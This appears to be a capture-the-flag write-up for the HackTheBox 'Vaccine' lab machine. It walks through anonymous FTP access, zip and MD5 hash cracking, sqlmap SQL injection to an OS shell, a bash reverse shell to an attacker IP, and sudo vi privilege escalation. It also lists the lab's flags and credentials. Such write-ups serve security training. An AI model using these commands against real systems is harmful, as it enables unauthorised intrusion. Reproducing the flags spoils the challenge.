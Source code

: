 ### Vaccine

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Vulnerability Assessment, Databases, Custom Applications, Protocols, Source Code Analysis, Apache, PostgreSQL, FTP, PHP, Reconnaissance, Password Cracking, SUDO Exploitation, SQL Injection, Remote Code Execution, Clear Text Credentials, Anonymous/Guest Acces<br>




---

#### Task 1
**Besides SSH and HTTP, what other service is hosted on this box?**
> FTP

![Nmap Scan of Target Machine](nmap.png)



---

#### Task 2
**This service can be configured to allow login with any password for specific username. What is that username?**
> anonymous

![FTP Login Without Password](anon.png)



---

#### Task 3
**What is the name of the file downloaded over this service?**
> backup.zip

![FTP File](ftp.png)




---

#### Task 4
**What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> zip2john

We try to use the `unzip` command to unzip the zip archive `backup.zip`, but can't because it's password protected. We use the `zip2john` command to convert `backup.zip` into a format `backup.hash` that allow for cracking attempts:

![Unsuccessful unzip](unsuccessful_unzip.png)

We use John The Ripper with the builtin wordlist `/usr/share/wordlists/john.lst` to crack `backup.hash`. We find that the password is `741852963` and are able to unzip the zip archive `backup.zip`:

![Successful unzip](successful_unzip.png)



---

#### Task 5
**What is the password for the admin user on the website?**
> qwerty789

We look at the `index.php` file from `backup.zip` and see that the password for the admin user is hardcoded into the website:

![Hardcoded Password](index.png)

The MD5 Hash of the password for the admin user is `2cb42f8734ea607eefed3b70af13bbd3`. We use John The Ripper with the builtin wordlist `/usr/share/wordlists/rockyou.txt` to crack the hash and get that the the password for the admin user is `qwerty789`:

![Password for admin User](admin_pass.png)

We login to the target machine's website using the credentials `admin` and `qwerty789`:
![Successful Login](successful_login.png)



---

#### Task 6
**What option can be passed to sqlmap to try to get command execution via the sql injection?**
> --os-shell

The target website has a PHPSESSID session cookie which preserves the state of the website (for that session). Since we previously logged into the target website, visiting any page of the target website using that same PHPSESSID session cookie will allow us to remain logged in. 

We use the command:

```Bash
sqlmap -u "http://{TARGET IP}/dashboard.php?search=tmp" --cookie="PHPSESSID="{SESSION KEY}" --os-shell
```

Now we have a shell as the postgres user on the target machine:
![OS Shell](os-shell.png)



---

#### Task 7
**What program can the postgres user run as root using sudo?**
> vi

Our sqlmap bash shell doesn't save the state of the machine after each command so we need to create a bash reverse shell. We setup a Netcat listener on our machine on port `4242` and then start our reverse shell using the sqlmap bash shell on the target machine:

```bash
bash -c "bash -i >& /dev/tcp/{OUR IP}/4242 0>&1"
```

Now we can send the target machine commands:

![Reverse Shell](reverse_shell.png)

We can use the command `sudo -l` to list commands that the postgres user is allowed to run as root, but we need the postgres user's password. We search the files for the website for a line containing both `postgres` and `pass`:

```bash
grep -nr 'postgres' /var/www/html | grep 'password'
```

We get that the password for the postgres user is `P@s5w0rd!`:

![Postgres Password](postgres_password.png)

We don't have a fully functional reverse shell, so we use the credentials for the postgres user to login using SSH. We run the `sudo -l` command and see that the postgres use can only run the `vi` command as root to edit the `/etc/postgresql/11/main/pg_hba.conf` file:

![Postgres Permissions](postgres_permissions.png)



---

#### User Flag
> ec9b13ca4d6229cd5cc1e09980965bf7

We get the postgres user flag from our os-shell:

![User Flag](user_flag.png)



#### Root Flag
> dd6e058e814260bc70e9bbdef2715849


The `/etc/postgresql/11/main/pg_hba.conf` has root permissions and we can use vim as root to edit it:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Since we opened the vim editor, we can use the commands to get a shell as root:

```
:set shell=/bin/sh
:shell
```

Then we find the flag:

![Flag](root_flag.png)

---